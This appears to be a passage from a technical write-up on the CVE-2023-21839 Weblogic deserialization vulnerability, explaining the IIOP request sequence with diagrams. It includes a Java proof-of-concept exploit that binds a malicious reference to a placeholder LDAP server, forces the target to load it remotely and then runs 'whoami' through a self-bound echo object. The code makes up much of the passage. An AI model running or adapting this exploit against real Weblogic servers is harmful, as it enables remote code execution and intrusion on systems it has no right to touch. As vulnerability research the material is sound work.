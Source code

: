Taking the CVE-2023-21839 Weblogic serialization vulnerability as an example, in the IIOP attack process of Weblogic, the attacker first initializes the context information, uses the rebind() method to bind the malicious object to the registry, and then triggers the vulnerability by using the lookup() method to remotely load the stub object from the malicious address. During the loading process, the customized malicious object performs a self-binding operation, binds an object with echo to the Weblogic registry, and then remotely calls the method in that object to achieve the purpose of attack echo.

PoC ：

```java
public class main {
    public static void main(String[] args) throws NamingException, RemoteException {
        ForeignOpaqueReference foreignOpaqueReference = new ForeignOpaqueReference("ldap://xxx.xxx.xxx.xxx:1389/exp", null);
        String iiop_addr = "iiop://10.211.55.4:7001";
        Hashtable<String, String> env = new Hashtable<String, String>();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", iiop_addr);
        Context context = new InitialContext(env);    // Initialize context and establish interactive connections  LocateRequest LocateReply
        String bind_name = String.valueOf(System.currentTimeMillis());
        context.rebind(bind_name, foreignOpaqueReference);  //Bind remote objects rebind_any
        context.lookup(bind_name);  // Get Remote Objects resove_anyClusterMasterRemote
        clusterMasterRemote = (ClusterMasterRemote)context.lookup("selfbind_name"); //Obtain self bound echo objects
        System.out.println(clusterMasterRemote.getServerLocation("whoami"));  // Executing methods in remote objects
    }
}
```



## 3.1 Attack process in Java

![](https://s3.bmp.ovh/imgs/2023/04/17/3e70897bf1720266.png)

1. At the beginning of IIOP serialization interaction in Weblogic, the client initializes the context information with new `InitialContext()` and uses the `locateNameService()` method to encapsulate the target address, serialized object, and other information into the IIOP protocol request packet as a `LocateRequest` message to establish communication with the Weblogic server.

![](https://s3.bmp.ovh/imgs/2023/04/17/17a490d1c1d534d1.png)

2. When the client receives a `LocateReply` message from the server, it indicates that the communication interaction has been established. The client will parse the information in the response message body and extract relevant information (such as Key Address, internal class addresses, context information, etc.) to be used as verification information for the next request message.

![](https://s3.bmp.ovh/imgs/2023/04/17/e60cc7ce2f94caf9.png)

3. After the communication is established, IIOP will use the `Key Address` in the server response packet during the interaction establishment as the `Key Address` in the next request. When the `bind()` or `rebind()` method is executed, the binding object name, object's serialized data, and other information will be encapsulated into the `Stub data` field of the request message body for message transmission.
